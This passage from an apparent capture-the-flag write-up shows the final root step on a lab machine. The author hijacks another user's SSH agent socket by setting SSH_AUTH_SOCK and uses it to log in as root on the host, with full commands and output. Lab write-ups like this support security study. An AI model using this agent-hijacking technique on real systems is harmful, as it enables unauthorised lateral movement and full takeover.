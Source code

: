 ### Root access through SSH agent hijack

The new found password works to get root access on the `kaneki-pc` container:

```
kaneki_pub@kaneki-pc:~$ su -l root
Password:
root@kaneki-pc:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kaneki-pc:~# ls
root.txt
root@kaneki-pc:~# cat root.txt
You've done well to come upto here human. But what you seek doesn't lie here. The journey isn't over yet.....
```

As expected, I don't have access to the real `root.txt` flag on this one.

Earlier I found that a user connects remotely then back using root's account on the host. I can just wait until the next time it connects then hijack its ssh agent socket:

```
root@kaneki-pc:/tmp# ls -l
total 20
drwx------ 1 root       root       4096 Dec 16 07:36 ssh-1Oo5P5JuouKm
drwx------ 1 kaneki_adm kaneki_adm 4096 Dec 16 07:36 ssh-FWSgs7xBNwzU
drwx------ 2 kaneki_adm kaneki_adm 4096 May  8 02:00 ssh-Y2CJdynAyJ
drwx------ 1 kaneki_pub kaneki     4096 Dec 16 07:36 ssh-jDhFSu7EeAnz
-rw------- 1 root       root        400 May  8 01:16 sshd-stderr---supervisor-b_s4zO.log
-rw------- 1 root       root          0 May  8 01:16 sshd-stdout---supervisor-rrVo6W.log

root@kaneki-pc:/tmp# cd ssh-Y2CJdynAyJ
root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# ls -l
total 0
srwxr-xr-x 1 kaneki_adm kaneki_adm 0 May  8 02:00 agent.216
root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# export SSH_AUTH_SOCK=agent.216

root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# ssh -p 2222 172.18.0.1
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)

[...]

Last login: Tue May  7 19:00:02 2019 from 172.18.0.200
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Aogiri:~# ls
log.sh  root.txt
root@Aogiri:~# cat root.txt
7c0f11...
```